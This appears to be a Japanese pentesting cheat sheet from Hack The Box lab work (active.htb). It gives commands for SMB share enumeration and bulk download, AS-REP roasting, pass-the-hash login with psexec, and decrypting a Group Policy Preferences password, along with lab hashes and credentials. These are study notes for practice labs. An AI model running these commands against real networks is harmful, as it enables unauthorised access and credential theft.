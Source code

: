 ### smbclient  

#接続
    smbclient -L <ipaddr>
    smbclient \\\\10.129.138.203\\Replication

#再起的にファイルを取得

    $ smbclient \\\\10.129.138.203\\Replication               
    Enter WORKGROUP\asai's password:
    Anonymous login successful
    Try "help" to get a list of possible commands.
    smb: \> recurse ON
    smb: \> prompt OFF
    smb: \> mget *
    getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\GPT.INI of size 23 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/GPT.INI (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
    getting file \active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\GPT.INI of size 22 as active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/GPT.INI (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
    getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\Group Policy\GPE.INI of size 119 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/Group Policy/GPE.INI (0.1 KiloBytes/sec) (average 0.1 KiloBytes/sec)
    getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Registry.pol of size 2788 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Registry.pol (2.2 KiloBytes/sec) (average 0.7 KiloBytes/sec)
    getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Preferences\Groups\Groups.xml of size 533 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups/Groups.xml (0.6 KiloBytes/sec) (average 0.7 KiloBytes/sec)
    getting file \active.htb\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf of size 1098 as active.htb/Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf (1.1 KiloBytes/sec) (average 0.7 KiloBytes/sec)
    getting file \active.htb\Policies\{6AC1786C-016F-11D2-945F-00C04fB984F9}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf of size 3722 as active.htb/Policies/{6AC1786C-016F-11D2-945F-00C04fB984F9}/MACHINE/Microsoft/Windows NT/SecEdit/GptTmpl.inf (2.9 KiloBytes/sec) (average 1.1 KiloBytes/sec)


### passwordポリシーの取得

    crackmapexec smb 10.129.1.77 --pass-pol -u '' -p ''

### impacket

    python3 GetNPUsers.py -dc-ip 10.129.1.77 -request 'htb.local/' -format hashcat


### パスワードクラック



### ログイン

hashつかったログインが可能か確かめる
    crackmapexec smb 10.129.1.77 -u administrator -H aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6

psexec(hash)
aad3bからLMハッシュが始まる場合はblankなのでNTハッシュで埋める
    psexec.py -hashes 32693b11e6aa90eb43d32c72a07ceea6:32693b11e6aa90eb43d32c72a07ceea6 administrator@10.129.1.77

### smbmap

再起的なディレクトリ検索
    smbmap -H 10.129.138.203 -R Replication

パターン検索ファイルのダウンロード
    smbmap -H 10.129.138.203 -R Replication -A Groups.xml -q

認証情報指定して検索
    smbmap -d active.htb -u SVC_TGS -p GPPstillStandingStrong2k18 -H 10.129.138.203

    gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
